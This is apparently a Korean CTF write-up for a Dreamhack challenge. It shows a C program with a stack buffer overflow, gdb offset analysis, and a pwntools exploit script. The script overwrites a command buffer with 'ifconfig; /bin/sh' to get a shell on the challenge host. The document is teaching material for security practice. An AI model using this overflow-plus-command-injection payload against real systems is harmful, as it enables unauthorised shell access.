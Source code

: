 # 바이너리 분석

```
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <unistd.h>

void init()
{
	setvbuf(stdin, 0, 2, 0);
	setvbuf(stdout, 0, 2, 0);
}

int main()
{

	char cmd_ip[256] = "ifconfig";
	int dummy;
	char center_name[24];

	init();

	printf("Center name: ");
	read(0, center_name, 100);

	if (!strncmp(cmd_ip, "ifconfig", 8))
	{
		system(cmd_ip);
	}

	else
	{
		printf("Something is wrong!\n");
	}
	exit(0);
}
```

![image](https://github.com/user-attachments/assets/937f31ab-22e8-466b-b8cd-7eea6ceca5cf)

먼저, `canary` 이외에는 다른 보호 기법이 전부 적용되어 있기 때문에 `BOF`를 통한 `RAO` 공격은 가능할 것인데, 바이너리에 `BOF` 취약점을 찾기 힘들기 때문에 일단 넘어가서 다른 관점에서 살펴보자.

```
if (!strncmp(cmd_ip, "ifconfig", 8))
{
  system(cmd_ip);
}
```

먼저, `char cmd_ip[256] = "ifconfig";`의 주소에서 `8bytes`에 저장된 데이터가 `"ifconfig"`라면 `cmp_ip`를 인자로 하는 `system` 함수를 수행할 수 있게 된다.

**이 뜻은 `cmd_ip`의 앞에서부터 `8bytes` 값만 `"ifconfig"`로 유지하고 뒤에 어떤 문자열을 붙여도 해당 문자열을 `system`의 인자로 전달하여 `Command Injection` 공격을 수행할 수 있다는 것이다.**

그렇다면, **`cmd_ip`에 `"ifconfig; /bin/sh"`을 입력하는 것을 목표로 잡고 바이너리를 다시 분석해보자.**

```
char center_name[24];

init();

printf("Center name: ");
read(0, center_name, 100);
```

여기를 보면, `center_name`에 `100bytes` 만큼 입력을 받는데, `center_name`은 크기가 `24bytes`이기 때문에 `BOF` 취약점이 발생한다.

만약 `center_name` **뒤의** `100bytes` 범위 내에 `cmd_ip`가 위치한다면 `BOF`를 통해 `cmp_ip`를 위의 목표처럼 덮어서 쉘을 획득할 수 있을 것이다.\
(참고로 `BOF` 취약점은 존재하지만, 쉘 실행 함수도 없고 `libc_base`를 구하기 힘들기 때문에 카나리가 없어도 `RAO` 공격은 힘들다.)

그럼 `gdb`를 통해 `center_name`과 `cmd_ip`의 위치를 살펴보자.

![image](https://github.com/user-attachments/assets/e61dded2-d47c-4c78-a5b1-d7a65fb6a062)

위 이미지를 보면, 

1. `read`의 두 번째 인자(`rsi`)인 `center_name`이 `[rbp-0x130]`임을 알 수 있고

2. `strncmp`의 첫 번째 인자(`rdi`)인 `cmp_ip`가 `[rbp-0x110]`임을 알 수 있다.

다행히 `cmp_ip`가 `center_name` 뒤에 위치해서 `BOF`를 통해 `center_name`에 값을 덮어서 `cmp_ip`까지 도달하여 `cmp_ip`의 문자열을 조작할 수 있다.

두 변수가 저장된 주소의 차이는 `0x20 = 32`이기 때문에 `b'a' * 0x20`을 전달해준 후, `strncmp`에 걸리지 않기 위해 `b'ifconfig'`를 붙이고, 다시 b`; /bin/sh`을 붙여서 전달해주면 될 것이다.

# Exploit

```
from pwn import *

p = remote('host3.dreamhack.games', 15414)

payload = b'a' * 0x20    # &cmd_ip - &center_name = 0x20(32)
payload += b'ifconfig'   # strncmp 우회
payload += b'; /bin/sh'  # injection

p.sendafter(b'Center name: ', payload)

p.interactive()
```

